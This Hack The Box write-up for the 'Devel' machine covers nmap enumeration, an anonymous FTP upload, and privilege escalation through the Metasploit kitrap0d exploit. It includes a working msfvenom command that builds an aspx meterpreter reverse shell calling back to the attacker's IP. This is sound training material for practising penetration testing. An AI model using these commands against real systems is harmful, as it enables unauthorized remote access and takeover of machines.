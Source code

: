```yaml
---
layout: post
title: HTB - Devel Writeup
date: 2019-01-02
image: '/images/posts/htb/devel/devel.jpg'
categories: ["writeups"]
tags: ["writeups", "devel", "htb"]
---
```


* Box: Devel
  - Difficulty: Easy
  - Points: 20
  - Release: 15 Mar 2017
  - IP: 10.10.10.5

### Initial Enumeration

#### Nmap Scanning

Let's start with a scan of the target ip address:

`nmap -sC -A -oN devel.nmap 10.10.10.5`

The Nmap scan reveals Microsoft FTP port 21 and Microsoft IIS 7.5 port 80 open.

#### Website Enumeration

After opening **Firefox** and visit the website **http://10.10.10.5** we get the default IIS 7 webpage.

Dirbuster enumeration provides us no further insight so we move our eyes over to the open FTP port.

#### FTP Enumeration

From our Nmap scan, we can see 2 files under the FTP.

<img src="/images/posts/htb/devel/devel1.jpg">

### Exploitation

Connecting anonymously via FTP reveals that it does allow anonymous logins. This misconfiguration is common.

<img src="/images/posts/htb/devel/devel2.jpg">

Since our user can upload files, we can simply create a **aspx** reverse shell and execute it by browsing to the file via the web server.

#### Payload Generating/Delivery

The following command will create a aspx file that we will use:

`msfvenom -p windows/meterpreter/reverse_tcp -f aspx -o devel.aspx LHOST=10.10.14.28 LPORT=4444`


**Set up a listener in Metasploit and open the file in the web browser:**

<img src="/images/posts/htb/devel/devel3.jpg">

After trying to navigate through some directories we quickly realize we need escalated permissions.

#### Privilege

Put the session in the background:

`background`

Then use the following command to suggest local meterpreter exploits that can be used.

<img src="/images/posts/htb/devel/devel4.jpg">

<img src="/images/posts/htb/devel/devel5.jpg">

After testing the first local exploit  `exploit/windows/local/bypassuac_eventvwr`, we see that it fails due to the IIS user not being a part of the administrators group. (This is usually default and to be expected)

The next exploit we test is:

`exploit/windows/local/ms10_015_kitrap0d`

This will attempt to create a new session with **SYSTEM** privileges.

<img src="/images/posts/htb/devel/devel6.jpg">

Now that we have the exploit worked, we have SYSTEM access, let's look for the root and user flags.

The root flag is on the Administrators desktop:

<img src="/images/posts/htb/devel/devel7.jpg">

The user flag is on the "babis" user's desktop:

<img src="/images/posts/htb/devel/devel8.jpg">
